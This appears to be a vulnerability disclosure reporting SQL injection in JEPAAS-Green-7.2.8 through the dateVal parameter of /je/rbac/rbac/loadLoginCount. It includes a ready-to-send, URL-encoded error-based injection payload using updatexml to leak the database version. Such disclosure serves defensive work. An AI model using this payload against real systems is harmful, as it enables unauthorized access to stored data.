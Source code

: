 SQL injection vulnerability in JEPAAS-Green-7.2.8, via /je/rbac/rbac/loadLoginCount in the dateVal parameter, which could allow a remote user to submit a specially crafted query, allowing an attacker to retrieve all the information stored in the DB.

**payload:**
```
queryType=DAY&dateVal=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+version%28%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271
```
![](https://github.com/abcc111/vulns/blob/main/images/f3a88861020e467029b218560e6aa290.png)
